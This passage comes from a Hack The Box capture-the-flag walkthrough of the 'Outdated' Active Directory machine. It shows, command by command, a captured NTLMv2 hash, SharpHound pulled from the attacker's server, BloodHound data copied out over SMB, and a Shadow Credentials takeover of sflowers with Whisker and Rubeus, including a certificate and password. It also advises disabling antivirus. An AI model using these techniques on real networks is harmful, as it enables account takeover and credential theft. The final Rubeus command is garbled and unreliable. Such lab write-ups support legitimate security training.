[SMB] NTLMv2-SSP Hash     : btables::OUTDATED:5174cb6ce4f72a1e:4B4509BF7380512DF4D509FFD05F57BD:0101000000000000804E2D42CCC8DA01F739C3EA0218AFB000000000020008004B004F0059004B0001001E00570049004E002D004600550035004C00450038004A00380042005400310004003400570049004E002D004600550035004C00450038004A0038004200540031002E004B004F0059004B002E004C004F00430041004C00030014004B004F0059004B002E004C004F00430041004C00050014004B004F0059004B002E004C004F00430041004C0007000800804E2D42CCC8DA010600040002000000080030003000000000000000000000000020000064ECF5C95CEC69A0D9EC1102AD1E00CEAE250BB8F3AD554D1997FB7DC85CB00F0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0032000000000000000000
```

```bash
$ cat /usr/share/responder/logs/SMB-NTLMv2-SSP-10.10.11.175.txt 
btables::OUTDATED:5174cb6ce4f72a1e:4B4509BF7380512DF4D509FFD05F57BD:0101000000000000804E2D42CCC8DA01F739C3EA0218AFB000000000020008004B004F0059004B0001001E00570049004E002D004600550035004C00450038004A00380042005400310004003400570049004E002D004600550035004C00450038004A0038004200540031002E004B004F0059004B002E004C004F00430041004C00030014004B004F0059004B002E004C004F00430041004C00050014004B004F0059004B002E004C004F00430041004C0007000800804E2D42CCC8DA010600040002000000080030003000000000000000000000000020000064ECF5C95CEC69A0D9EC1102AD1E00CEAE250BB8F3AD554D1997FB7DC85CB00F0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0032000000000000000000
```

But it seems the password is not on HTB common wordlist `rockyou.txt`.

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt /usr/share/responder/logs/SMB-NTLMv2-SSP-10.10.11.175.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:10 DONE (2024-06-27 20:05) 0g/s 1333Kp/s 1333Kc/s 1333KC/s !SkicA!..*7¡Vamos!
Session completed.
```

We see that we are really autenticated with a domain user. We can try to collect bloodhoud data direct on the shell. For that lets transfer `SharpHouse.exe` to the machine and run it from there.

```bash
$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8181/) ...
```

```bash
PS C:\Users> mkdir C:\Temp
    Directory: C:\
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          7/2/2024   2:52 AM                Temp
PS C:\Users> cd C:\Temp

PS C:\Temp> iwr http://10.10.14.2:8181/SharpHound.exe -outfile SharpHound.exe
PS C:\Temp> dir
    Directory: C:\Temp
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/2/2024   2:53 AM         906752 SharpHound.exe
```

```bash
PS C:\Temp> C:\Temp\SharpHound.exe -C all
2024-07-02T02:53:53.3383016-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, 
Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-07-02T02:53:53.3539224-07:00|INFORMATION|Initializing SharpHound at 2:53 AM on 7/2/2024
2024-07-02T02:53:54.1607086-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Tru
sts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-07-02T02:53:54.6256591-07:00|INFORMATION|Beginning LDAP search for outdated.htb
2024-07-02T02:53:54.7741817-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-07-02T02:53:54.7741817-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-07-02T02:54:24.7355674-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 37 MB RAM
2024-07-02T02:54:45.3502445-07:00|INFORMATION|Consumers finished, closing output channel
2024-07-02T02:54:45.4283680-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-07-02T02:54:45.6002420-07:00|INFORMATION|Status: 97 objects finished (+97 1.94)/s -- Using 59 MB RAM
2024-07-02T02:54:45.6002420-07:00|INFORMATION|Enumeration finished in 00:00:50.9929922
2024-07-02T02:54:45.7565166-07:00|INFORMATION|SharpHound Enumeration Completed at 2:54 AM on 7/2/2024! Happy 
Graphing!
```

```bash
PS C:\Temp> dir
    Directory: C:\Temp
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/2/2024   2:54 AM          11198 20240702025444_BloodHound.zip
-a----          7/2/2024   2:54 AM           8662 MjdhMDc5MjItNDk4MS00NjFiLWFkY2ItZjQ0ZTBlODI3Mzhh.bin       
-a----          7/2/2024   2:53 AM         906752 SharpHound.exe
```

```bash
$ impacket-smbserver share $(pwd) -smb2support -user kali -pass kali                                     
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```bash
PS C:\Temp> net use \\10.10.14.2\share /u:kali kali
The command completed successfully.

PS C:\Temp> copy 20240702025444_BloodHound.zip \\10.10.14.2\share
```

```bash
$ sudo neo4j start
$ bloodhound &
```

## AddKeyCredentialLink

The members of the group `ITSTAFF@OUTDATED.HTB` have the ability to write to the "`msds-KeyCredentialLink`" property on `SFLOWERS@OUTDATED.HTB`. Writing to this property allows an attacker to create "Shadow Credentials" on the object and authenticate as the principal using kerberos PKINIT.







- [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
- [Whisker - GitHub](https://github.com/eladshamir/Whisker)

On a Windows machine with Visual Studio installed, close the repo and build the solution. Remember to disable Windows Defender (antivirus) or set the exclusion to don't scan the folder where the solution is getting built.




```bash
Build started at 8:32 PM...
1>------ Build started: Project: Whisker, Configuration: Release Any CPU ------
1>  Whisker -> C:\Users\Kali\Projects\Whisker\Whisker\bin\Release\Whisker.exe
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========
========== Build completed at 8:32 PM and took 03.951 seconds ==========

```

Transfer `Whisker.exe` from Windows to Kali and then transfer to the target we have a shell.

Open a smb share on kali to get the file and transfer it.

```bash
impacket-smbserver share $(pwd) -smb2support -user kali -pass kali
```

Copy `Whisker.exe` and `Rubeus.exe` to the web folder on the `follina.py` script that is already serving as a webserver.

```bash
cp Whisker/Whisker/bin/Release/Whisker.exe follina.py/www/
cp /home/kali/Desktop/HTB/Academy/AD/Tools/Rubeus.exe follina.py/www/
```

On the target download the files.

```bash
Invoke-WebRequest -Uri 'http://10.10.14.2/Whisker.exe' -OutFile 'C:\Temp\Whisker.exe'
Invoke-WebRequest -Uri 'http://10.10.14.2/Rubeus.exe' -OutFile 'C:\Temp\Rubeus.exe' 
```

Now lets list the entries for `sflowers`.

```bash
PS C:\Temp> C:\Temp\Whisker.exe list /domain:outdated.htb /target:sflowers /dc:DC.outdated.htb
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Listing deviced for sflowers:
[*] No entries!
```

There are no entries. Let's add one.

```bash
PS C:\Temp> C:\Temp\Whisker.exe add /domain:outdated.htb /target:sflowers /dc:DC.outdated.htb /password:u5nDYAm5BqtYpG5v
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 7292f58d-6063-4bbd-be28-edda8a661f71
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object 
[*] You can now run Rubeus with the following syntax:
Rubeus.exe asktgt /user:sflowers /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCWUEgglhMIIJXTCCBhYGCSqGSIb3DQEHAaC
CBgcEggYDMIIF/zCCBfsGCyqGSIb3DQEMCgECoIIE/jCCBPowHAYKKoZIhvcNAQwBAzAOBAgScnk2aEVGZwICB9AEggTYv8eGZs6wErdst5+6Eb/K
zyY2/XoF3UnyQr8DzPxCGluW8RyQx9ReLOg2PI+9Iaf4qqcp8k+jBohtbP/FaL2CGk/Raxj9TpGS5VwWI2e6kw8+W3IhV83XKu6w/4t5g83gBylV+
tNGF2SBbAdoY0S2/h9YpkubNS82ordzipgcmQ7NKQ8oeHbrD+yxDkKqTO9L5Z2fpCEh6R1KFPkgl05tuu8VMRC4VDqTUoTDgEkodSCsY8TrxH65+W
KxQGnd9wWkfIE7c80GAKGHsrVrRNHn4+7LdIfMtah3FkksdcU5dPSv+2IUoaMEb66rkI38XqcXBeB/irp1NSCNZKN75ujRatN2h5B2+6zyLkkv9b9
/YEZB6ICKgbZMqbpECJxPfTQnh1t5kK6ahHCX6CLxxwTgZPGs3AONK9Npb7SHkip/eZ1fm6+CUhMzhxP7hhnD48zL3gLcsyKCrP25ruFH2fF/L6Iv
CxI6Nqjb1Hwk5GvSLS/VK6X0yJlQj2eVfNC5YrnFdkeelicF0lLCtlVaPppZvNv/91aFyzH0dvmrayTZq1hc4MQC/AZUhvqi7Rnm2QVOATCNZVRpr
7PFyWYHcfrRy4BXqb6oESt+Kb8MBZ/FDXu3BG1wH2Xgr20qHen5s37gf9qxFe6ZNoT54MNXr8lY+47ur2t1/4m8NRiH65l27XE6yqgF0bT85K8DKz
3dY0ez4vuF98CrsfBlFZUTY+GOdLjYgbxEnt9s5TSWeuh/dJ8/2+zAOldDfataFGpZ4zi2J+HymPT1vKBQz2LqY8YahA1eURBgNUbfYXsSoVJw1To
Pr7ITXso8Iep1VCSd2mD+9COEn2STUqhFGlmCMSfwFemf6DHkCJnNOP3SjP7U3+bdpyqnf3Kw6Uys7c6oY19GhgJyeZVcEUi3iJ91ZJLceI6Kzbvx
Tv92Djs8ni+V4aer/BsB1EMY9r9KPW2J5o8C7iZymDRP0t3Up6KRuZrplL30TSSt6987U74c9b7itJL+Oo1y5wZOpm/IwwpXB3XLxEjoakDTNM4O2
+QPy7JK5kmTl2a0rxghDGPK3VAPgnzMDZeSUzUM4R6y8JsrdBNjcy1mn3A6/ZucMsFO0Zs2+RUPUwYIUU0rUgBefwy4efdJXW/N+eRRObMNMPX0DV
QO3oIN1i9S1k8nl4OxzvN/EpqsbZW3LDtprPdKG8sD4tg8IzpU3DaRKdPnYxGFhy0YXFyC5SiA/SSwK7GQu4tQhrZ8S6qDLNS7kdQ7QVqhUFwQALo
aUg3qywrJ4/4gtR3RoLPRWZVlPA4C408hyMLWVfx2axarDfIb43Ivsz7JandaKlw8I21UtP8Rjjr+w1kPh0rXZlmywZpSq2fS/nAC4SVHZGXImhvV
S/Au0JXW0trhs9lAQL1oDJsAQE6ildFQxkZ+u5OV0pngAoWFQfs3ea2b10sMY8gH5cCdqZrjKA5hbtY8D2SK0UIH5/mcmtwZB2bWNnExuPS0tXV4+
M7rkXwxMTCNdYa763u4A7PIkDX4nJHPQipnDrTqdTPO5uqhQgtVOIRs07f2Z6a+PUD+3sF1xdfgukfCu7jXwAKpiqnKoYDVfTy9LVTcvRCz4acKy7
TzI+2gykKtlKN/WxWNz8tcqbFIr246WaSMWM/v+hdDgOU36z93xjGB6TATBgkqhkiG9w0BCRUxBgQEAQAAADBXBgkqhkiG9w0BCRQxSh5IADcANwA
xADcAZgAwAGIAYwAtADQAZABlADEALQA0AGEAMQAxAC0AYgBkADIANQAtAGEAMgA0ADMAOQBjADIAYwA5ADcAOAAwMHkGCSsGAQQBgjcRATFsHmoA
TQBpAGMAcgBvAHMAbwBmAHQAIABFAG4AaABhAG4AYwBlAGQAIABSAFMAQQAgAGEAbgBkACAAQQBFAFMAIABDAHIAeQBwAHQAbwBnAHIAYQBwAGgAa
QBjACAAUAByAG8AdgBpAGQAZQByMIIDPwYJKoZIhvcNAQcGoIIDMDCCAywCAQAwggMlBgkqhkiG9w0BBwEwHAYKKoZIhvcNAQwBAzAOBAi//G7T+U
xvUwICB9CAggL4PghaVXJmpLdtV2VJOGvtrSbezALzTLeq1KmacTGetRquwP9rhK+z4Q6ywijLfx7cANtkxRJ0tTzC2zstZXFfAj8oW/oS2tejZwP
b8FfqzVwvdwNAZFjhjNKyNuukxLpCyaYe1cNS/LTLUL0sz7bD0KBCI8yGpv8AHXG7ikHUbGzOuYHxCdY4ThJoAqNqxmUfg9KFVh4Mnmem7W+QyhkR
zuTQIVcYrEyEzYxJ5ElZh0NI/zQ1MXY/0Fp4sZQdIyDlf36FTJC7QAQpDYBJNGGEAM4Vrry9qi6BLNyB+iE/NSUtS+feKsEiLT4/J69KpqBW7EHHD
Fg6gazKBhuPAmVLycV5NYy6DQsbhZOItuORTCyeHGyzAW1x8Bg+UL8KHUMugKy1toITylc/+Rlogh5baVD/lOzL4vmFSO57UPf/h/v3kcaMxhrDeV
WyuRy12+XxjDM58w3vlXl9fcPwz8kdW6C4RbVYIEZ1787GPAi1kz6m/G9ueh1UEVTtT5phmLRmyMhVyYrjMYxbfV5uwAQjG9B5UGmn2F/seq826O6
kyitLZ/vVriNUJY/9QHubiZ7N9iVwHsRJf0YnhkUtrHjfp1y1vzjEoN3KnLSWxKb8cOt/bOdjmD0paL5rDPvRYUmiNuz/38NqSDmWWBkHLNRPggzW
CAo3acPBBzAuIw+r96Np5ssWL9MwkZGaqOlLTXasQPmbZ1LaZRN67O36s/8BfySB2vI4/W2Ubrajru65A3h+CEloCUHd6KLPr+/mrDwcu1YuA3Niv
+7e+Y9sG1CQeHYoKORgf2jBGO7/PJmruoRGCmxQuyMXq/AZHxCDRbWt8XwIe6Hq3zKZ6DMoB+z8NvloL6Sxow9MG0fK+hWY4uSo5qiyPr48rf9lSH
Hxs8AiBH1RUyzOwEOov4g0bT99uvidUFKrEEv8HsaLUgHNeY0hpGVqppI2Zn70nkiV0/jTpm/TCE7k0pax0luShUNRvrlMqr0DHQqdRUHuP6ZhgPV
au3nuG7kePDA7MB8wBwYFKw4DAhoEFCiz8S5ML9QDN8mBwqM5FeyUaGfhBBTPCaRX2DxI0q06oYagfxLniD6wxAICB9A= /password:"u5nDYAm5
BqtYpG5v" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```

The command outputs the `Rubeus` command that we need to execute.

```bash
C:\Temp\Rubeus.exe asktgt /user:sflowers /certificate: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 /password:"u5nDYAm5BqtYpG5v" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```

```bash
PS C:\Temp> C:\Temp\Rubeus.exe asktgt /user:sflowers /certificate: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:"u5nDYAm5BqtYpG5v" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
DVfTy9LVTcvRCz4acKy7TzI+2gykKtlKN/WxWNz8tcqbFIr246WaSMWM/v+hdDgOU36z93xjGB6TATBgkqhkiG9w0BCRUxBgQEAQAAADBXBgkqhki
G9w0BCRQxSh5IADcANwAxADcAZgAwAGIAYwAtADQAZABlADEALQA0AGEAMQAxAC0AYgBkADIANQAtAGEAMgA0ADMAOQBjADIAYwA5ADcAOAAwMHkG
CSsGAQQBgjcRATFsHmoATQBpAGMAcgBvAHMAbwBmAHQAIABFAG4AaABhAG4AYwBlAGQAIABSAFMAQQAgAGEAbgBkACAAQQBFAFMAIABDAHIAeQBwA
HQAbwBnAHIAYQBwAGgAaQBjACAAUAByAG8AdgBpAGQAZQByMIIDPwYJKoZIhvcNAQcGoIIDMDCCAywCAQAwggMlBgkqhkiG9w0BBwEwHAYKKoZIhv
cNAQwBAzAOBAi//G7T+UxvUwICB9CAggL4PghaVXJmpLdtV2VJOGvtrSbezALzTLeq1KmacTGetRquwP9rhK+z4Q6ywijLfx7cANtkxRJ0tTzC2zs
tZXFfAj8oW/oS2tejZwPb8FfqzVwvdwNAZFjhjNKyNuukxLpCyaYe1cNS/LTLUL0sz7bD0KBCI8yGpv8AHXG7ikHUbGzOuYHxCdY4ThJoAqNqxmUf
g9KFVh4Mnmem7W+QyhkRzuTQIVcYrEyEzYxJ5ElZh0NI/zQ1MXY/0Fp4sZQdIyDlf36FTJC7QAQpDYBJNGGEAM4Vrry9qi6BLNyB+iE/NSUtS+feK
sEiLT4/J69KpqBW7EHHDFg6gazKBhuPAmVLycV5NYy6DQsbhZOItuORTCyeHGyzAW1x8Bg+UL8KHUMugKy1toITylc/+Rlogh5baVD/lOzL4vmFSO
57UPf/h/v3kcaMxhrDeVWyuRy12+XxjDM58w3vlXl9fcPwz8kdW6C4RbVYIEZ1787GPAi1kz6m/G9ueh1UEVTtT5phmLRmyMhVyYrjMYxbfV5uwAQ
jG9B5UGmn2F/seq826O6kyitLZ/vVriNUJY/9QHubiZ7N9iVwHsRJf0YnhkUtrHjfp1y1vzjEoN3KnLSWxKb8cOt/bOdjmD0paL5rDPvRYUmiNuz/
38NqSDmWWBkHLNRPggzWCAo3acPBBzAuIw+r96Np5ssWL9MwkZGaqOlLTXasQPmbZ1LaZRN67O36s/8BfySB2vI4/W2Ubrajru65A3h+CEloCUHd6
